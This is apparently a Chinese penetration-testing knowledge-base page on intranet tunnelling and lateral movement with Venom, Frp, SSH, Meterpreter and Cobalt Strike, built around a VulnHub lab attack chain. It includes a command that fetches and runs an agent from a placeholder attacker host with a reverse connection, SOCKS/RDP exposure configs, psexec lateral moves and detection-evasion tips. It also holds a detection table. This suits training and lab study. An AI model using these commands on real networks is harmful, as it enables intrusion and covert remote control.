

## 核心概念与技术分层

内网穿透与横向移动是渗透测试后期渗透阶段的核心技术，主要解决**边界防火墙限制**、**网络隔离**、**非直连网络访问**等问题。技术体系可分为四层：

| 层级 | 核心任务 | 典型技术/工具 |
|------|----------|---------------|
| **通道建立层** | 突破网络边界，建立加密隧道 | SSH 隧道、VPN、反向 Shell、WebShell 隧道 |
| **代理协议层** | 统一流量出口，支持多协议转发 | SOCKS4/5、HTTP/HTTPS、TCP/UDP 转发 |
| **工具链适配层** | 让现有工具透明走代理 | Proxychains、Proxytool、Tun2Socks、Redir |
| **C2 集成层** | 与命令控制框架深度融合 | Meterpreter 路由、Cobalt Strike SMB Beacon、Covenant P2P |

> **关键区别**：**正向代理**由攻击方发起连接至跳板；**反向代理**由目标主动连回攻击方。内网渗透中反向连接更易绕过出站策略。

## 主流隧道/代理工具深度对比

### Venom（文中实战工具）

**定位**：多协议、多平台、可插拔的内网渗透代理框架（Go 编写）

**核心架构**：
- **Admin (Server)**：监听控制端口（默认 7777），管理 Agent 节点
- **Agent (Client)**：部署在目标主机，反向连接 Admin
- **插件化传输**：支持 TCP、WS、WSS、KCP、QUIC 等

**实战配置（VulnHub Social Network 场景）**：
```bash
# Kali (Admin)
./admin_linux_x64 -lport 7777

# 目标主机 (Agent) - 需先传文件
wget http://<Kali_IP>:81/agent_linux_x64
chmod +x agent_linux_x64
./agent_linux_x64 -rhost <Kali_IP> -rport 7777

# Admin 交互
Venom> show           # 列出在线节点
Venom> goto 1         # 进入节点 1
Venom> socks 1080     # 在本地 1080 启动 SOCKS5 代理
```

**优势**：单二进制、免安装、支持多级级联、流量特征可定制。  
**局限**：社区相对较小、文档不如 Frp 完善。

### Frp（高性能反向代理）

**定位**：成熟稳定的内网穿透工具，广泛用于生产环境与渗透测试

**核心模式**参见 [[frp内网渗透应用]]：
| 模式 | 适用场景 | 关键配置 |
|------|----------|----------|
| **TCP/UDP 转发** | 单端口服务映射（RDP、SSH、数据库） | `type = tcp`, `local_port`, `remote_port` |
| **SOCKS5 代理** | 全流量代理，配合 Proxychains | `type = tcp`, `plugin = socks5` |
| **HTTP/HTTPS 代理** | Web 漏洞扫描、API 调用 | `type = http`, `plugin = http_proxy` |
| **多级级联** | 多层内网穿透 | `proxy_protocol_version = v2` |

**实战配置片段**：
```ini
# frpc.ini (目标端)
[common]
server_addr = <VPS_IP>
server_port = 7000

[socks5_proxy]
type = tcp
plugin = socks5
remote_port = 1080

[rdp_forward]
type = tcp
local_ip = 127.0.0.1
local_port = 3389
remote_port = 33389
```

**对比 Venom**：Frp 文档更全、社区更活、性能更优，但二进制体积较大、默认流量特征明显（需配合 TLS/XTLS 混淆）。

### SSH 隧道（原生无依赖）

**三大隧道模式**：

| 模式 | 命令模板 | 数据流向 | 典型用途 |
|------|----------|----------|----------|
| **本地转发** | `ssh -L <LPORT>:<RHOST>:<RPORT> user@<JUMP>` | 攻击机 LPORT → Jump → RHOST:RPORT | 访问目标内网 Web/数据库 |
| **远程转发** | `ssh -R <RPORT>:<RHOST>:<LPORT> user@<JUMP>` | Jump RPORT → 攻击机 LPORT → RHOST | 反弹内网服务到公网跳板 |
| **动态转发** | `ssh -D <LPORT> user@<JUMP>` | 攻击机 LPORT (SOCKS5) → Jump → 任意目标 | 全工具代理化，**最常用** |

**实战技巧**：
```bash
# 后台持久化 + 保活 + 压缩
ssh -fN -D 1080 -o ServerAliveInterval=30 -o ServerAliveCountMax=3 -C user@<JUMP>

# 免密登录配合自动重连
autossh -M 0 -fN -D 1080 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" user@<JUMP>
```

**优势**：系统自带、加密标准、防火墙通常放行 22 端口。  
**局限**：需有效凭证、单线程性能瓶颈、无原生多级级联支持。

### Meterpreter 路由（Metasploit 原生）

**核心命令**：
```msf
# 在已建立的 Meterpreter 会话上添加路由
route add <TARGET_NETWORK> <NETMASK> <SESSION_ID>

# 查看当前路由表
route print

# 启动 SOCKS4a 代理 (auxiliary/server/socks_proxy)
use auxiliary/server/socks_proxy
set SRVPORT 1080
set SRVHOST 0.0.0.0
run
```

**原理**：Metasploit 框架层维护路由表，所有模块流量经 Session 通道转发。  
**局限**：仅限 MSF 模块/工具，外部工具需配合 Proxychains 使用 SOCKS4a 代理。

### Cobalt Strike SMB Beacon（命名管道隐蔽通信）

**架构详解**参见 [[cobalt-strike-external-c2-smb-beacon]]、[[smb-named-pipe-c2-communication]]、[[named-pipe-smb-detection-sysmon]]：

| 组件 | 说明 |
|------|------|
| **SMB Listener** | Team Server 监听命名管道（默认 `msagent_`） |
| **SMB Beacon** | 通过 `\\<HOST>\pipe\<PIPE>` 与 Listener 通信 |
| **link/unlink** | Beacon 间建立/断开 P2P 管道连接 |
| **jump psexec** | 利用 SMB + 服务安装横向移动 |

**流量特征**：
- 端口 445 (SMB)
- 命名管道名可定制（Malleable Profile `pipe_name`）
- 心跳间隔 `sleep`/`jitter` 可配置

**防御视角**：Sysmon Event ID 17/18 监控管道创建/连接，网络层基线 SMB 会话异常。

### Covenant / Covenant P2P（.NET 跨平台 C2）

参见 [[covenant-c2-framework-analysis]]：
- **HTTP Egress**：基于 HTTP/2 的出站通信
- **SMB Named Pipe P2P**：Beacon 间组网，无需直连 Team Server
- **External C2 规范**：可接入第三方通信通道

## 代理协议与工具链适配

### SOCKS5 vs HTTP 代理选型

| 维度 | SOCKS5 | HTTP/HTTPS 代理 |
|------|--------|-----------------|
| **协议支持** | TCP/UDP/ICMP (SOCKS5) | 仅 TCP (HTTP CONNECT) |
| **认证** | 用户名/密码、GSS-API | Basic/Digest/NTLM |
| **工具兼容性** | Proxychains、Nmap、MSF、Curl | 浏览器、Burp、SQLMap、大多数 CLI |
| **流量特征** | 握手明文可识别 | 类似正常 Web 流量，易混淆 |

**建议**：内网扫描/爆破用 SOCKS5（Nmap `-sT` 需 TCP Connect）；Web 漏洞利用用 HTTP 代理（Burp、SQLMap 原生支持）。

### Proxychains / Proxychains4（全工具代理化标配）

**配置文件 `/etc/proxychains4.conf` 关键点**：
```conf
# 代理链模式
strict_chain   # 所有代理必须可用（默认）
dynamic_chain  # 至少一个可用即可
random_chain   # 随机顺序

# 代理列表（支持混合协议）
socks5 127.0.0.1 1080   # Venom/Frp/SSH -D
socks4 127.0.0.1 1081   # MSF SOCKS4a
http   127.0.0.1 8080   # HTTP 代理

# DNS 解析防泄露
proxy_dns
remote_dns_subnet 224
```

**使用模式**：
```bash
# 单命令代理化
proxychains nmap -sT -Pn 172.17.0.2

# 交互式 Shell 代理化
proxychains bash
# 后续所有命令自动走代理

# 指定配置文件
proxychains -f /custom/proxychains.conf <cmd>
```

**局限**：仅支持动态链接程序（LD_PRELOAD），静态编译/Go 语言程序无效。

### 进阶方案：Tun2Socks / Redir / Proxytool

| 工具 | 原理 | 适用场景 |
|------|------|----------|
| **Tun2Socks** | 虚拟网卡 (TUN) + 用户态 SOCKS5 协议栈 | 系统级全流量代理、容器/K8s 网络透明代理 |
| **Redir (iptables REDIRECT)** | 内核态 DNAT 重定向至本地代理端口 | 透明代理、无需修改应用 |
| **Proxytool (Go)** | 类 Proxychains 但支持静态二进制、UDP、多核 | Go/Rust 静态工具、高并发扫描 |

## 实战场景交叉引用

### 场景一：VulnHub Social Network（文中完整复现）

**拓扑**：
```
Kali (192.168.0.114)
    │
    ├─ 宿主靶机 192.168.0.113 / 172.17.0.1 (Docker Host)
    │       │
    │       ├─ 容器 A 172.17.0.2 (Elasticsearch CVE-2015-1427)
    │       └─ 容器 B 172.17.0.3 (Web exec() RCE) ← 初始立足点
    │
    └─ 攻击链：
        1. Web RCE → 反弹 Shell (容器 B)
        2. 容器逃逸/内网发现 → 识别 172.17.0.0/16
        3. **Venom 反向 SOCKS5** 穿透至 Kali
        4. **Proxychains + Nmap** 扫描内网
        5. 利用 Elasticsearch RCE 拿下容器 A
        6. 密码哈希破解 → SSH 横向登录宿主
        7. **本地提权 (CVE-2013-2094)** → Root
```

**关键技术点映射**：
- 容器环境识别：`/.dockerenv`、`/proc/1/cgroup`
- 内网存活探测：`for i in $(seq 1 10); do ping -c 1 172.17.0.$i; done`
- Venom 部署：Admin/Agent 反向连接 + `socks 1080`
- Proxychains 配置：`socks5 127.0.0.1 1080`
- 代理化 Nmap：`proxychains nmap -Pn -sT 172.17.0.2`
- 漏洞利用代理化：`proxychains python2 37292.py 172.17.0.2`

完整复现详见 [[vulnhub-boredhackerblog-social-network-writeup]]。

### 场景二：CTFd-Whale 动态靶机集群（Frp 多级级联）

参见 [[frp内网渗透应用]] 中“CTFd-Whale 动态靶机场景下的集成配置用法”：
- **拓扑**：选手 → Frp Client (跳板) → Frp Server (VPS) → 多个动态靶机容器
- **配置要点**：
  - `token` 认证防止劫持
  - `tcp_mux = true` 多路复用降低延迟
  - `proxy_protocol_version = v2` 透传真实源 IP
  - 每个靶机分配独立 `remote_port`，选手侧统一 `socks5` 入口

### 场景三：Cobalt Strike SMB Beacon 域环境横向

参见 [[cobalt-strike-external-c2-smb-beacon]]、[[smb-named-pipe-c2-communication]]：
- **前置**：已控域内一台主机（Beacon A）
- **操作**：
  1. `link <TARGET_HOST>` 建立管道连接
  2. `jump psexec <TARGET_HOST> <LISTENER>` 部署 SMB Beacon B
  3. `unlink <TARGET_HOST>` 断开管道（隐蔽撤离）
- **流量混淆**：Malleable Profile 定制 `pipe_name`、`header`、`useragent`

## 检测与对抗视角

| 技术 | 主机层检测 | 网络层检测 | 对抗建议 |
|------|------------|------------|----------|
| **Venom/Frp** | 进程名、端口监听、二进制哈希 | 非标准端口长连接、TLS 指纹 | 重命名二进制、HTTPS/WSS 传输、CDN 前置 |
| **SSH 隧道** | `sshd` 子进程、`authorized_keys` 异常 | 22 端口长连接、SFTP 流量特征 | 密钥轮换、跳板机审计、限制 `PermitTunnel` |
| **Meterpreter 路由** | `meterpreter` 线程、注入进程 | 反向 TCP 特征、Sleep 模式 | `execute -f` 落地、Artifact Kit 定制、Sleep Mask |
| **SMB Beacon** | Sysmon ID 17/18 管道创建/连接 | SMB 会话异常、命名管道名 | 合法管道名伪装、`link` 后立即 `unlink`、P2P 而非集中式 |

详细检测规则参见 [[named-pipe-smb-detection-sysmon]]。

## 知识图谱导航



## 快速参考卡片

| 任务 | 首选方案 | 备选方案 | 关键命令/配置 |
|------|----------|----------|---------------|
| **单端口转发 (RDP/SSH)** | SSH `-L`/`-R` | Frp `type=tcp` | `ssh -L 3389:10.0.0.5:3389 user@jump` |
| **全流量 SOCKS5 代理** | SSH `-D` / Venom `socks` | Frp `plugin=socks5` | `proxychains nmap -sT 10.0.0.0/24` |
| **多级内网级联** | Venom 多节点 `goto` | Frp `proxy_protocol_version=v2` | `Venom> goto 1 -> goto 2 -> socks 1080` |
| **域环境隐蔽横向** | CS SMB Beacon `link` | Covenant SMB P2P | `link DC01` → `jump psexec DC01 smb` |
| **MSF 模块内网扫描** | `route add` + `socks_proxy` | Venom/Frp + Proxychains | `route add 10.0.0.0 255.255.255.0 1` |
| **静态二进制工具代理化** | Tun2Socks / Proxytool | Redir + iptables | `proxytool -proxy socks5://:1080 ./scanner` |

## 延伸阅读与资源

- **工具仓库**：
  - Venom: https://github.com/Dliv3/Venom
  - Frp: https://github.com/fatedier/frp
  - Proxytool: https://github.com/ProxyTool/ProxyTool
  - Tun2Socks: https://github.com/xjasonlyu/tun2socks
- **实战靶场**：
  - VulnHub Social Network: [[vulnhub-boredhackerblog-social-network-writeup]]
  - CTFd-Whale: [[frp内网渗透应用]]
  - 更多 VulnHub 靶机: [[vulnhub-platform-resource-index]]
- **C2 基础设施**：
  - 重定向器与 Malleable Profile: [[c2-redirectors-malleable-c2-profiles]]
  - Covenant 架构分析: [[covenant-c2-framework-analysis]]
- **网络基础**：
  - 渗透测试网络基础: [[network-fundamentals-penetration-testing]]
  - ARP 欺骗与中间人: [[0w1club-week2-wifi-hijacking-arp-spoofing]]、[[ettercap-arp-mitm-practical-guide]]

## 来源

- [0x00实验室-202108-202304_066](../sources/0x00实验室-202108-202304_066.md)
